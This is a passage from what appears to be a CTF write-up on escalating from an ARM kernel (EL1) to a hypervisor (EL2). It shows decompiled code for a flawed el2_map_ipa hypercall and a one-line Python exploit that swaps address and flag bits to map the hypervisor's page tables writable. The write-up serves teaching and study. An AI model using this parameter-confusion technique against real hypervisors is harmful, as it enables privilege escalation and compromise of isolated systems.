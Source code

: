 This gives code execution in EL1 (the kernel).

### Exploiting EL2

EL2 (the hypervisor) only has one interesting hypercall:

`el2_map_ipa(ipa, flags)`

This maps an IPA into the kernel's "physical" address space. This
implementation look like this:

```c
void el2_map_ipa(uint64_t ipa, uint64_t flags) {
  uint64_t idx = (ipa >> 12) & 0x1FF;
  if (pa == 0x3b000) {
    // Special case for mapping UART.
    ...
    return;
  }

  // Ensure the requested IPA falls within the reserved kernel memory
  // range at [0x40000000, 0x4003c000)
  if (ipa >= 0x3c000) {
    panic("[VMM] Invalid IPA")
  }

  // Prohibit mapping the IPAs reserved for kernel code writable (not
  // relevant for exploiting EL2).
  if (ipa < 0xc000 && flags & 0x80) {
    panic("[VMM] try to map writable pages in RO protected area");
  }

  // Ensure that XN is enabled if the page is writable.
  if ((flags & 0x40000000000080i64) == 0x80) {
    panic("[VMM] RWX pages are not allowed");
  }

  // Map the the IPA in the EL1 to the address 0x40000000 + ipa in EL2.
  vttbr_el2_translation_tables.entry[idx + (ipa >> 21 << 9)] = (ipa + 0x40000000) | flags;
}
```

The bug is that the checks can be bypassed by placing address bits in
the `flags` parameter and page table flags bits in the `ipa` parameter.
This allows mapping RWX memory out of bounds of the reserved memory
region in EL2.

The exploit does:
```python
# ipa_table_base is the address of vttbr_el2_translation_tables inside
# the hypervisor
ipa_table_base = 0x40107000
ipa_table_ipa = 0x7000
# Put the writable flag into the IPA param and or the address into the
# flags param. The resulting translation table entry (made by orring these
# two together) will map IPA 0x7000 RW to 0x40107000 in el2.
map_ipa(ipa_table_ipa | 0x80, 0x443 | ipa_table_base)
```
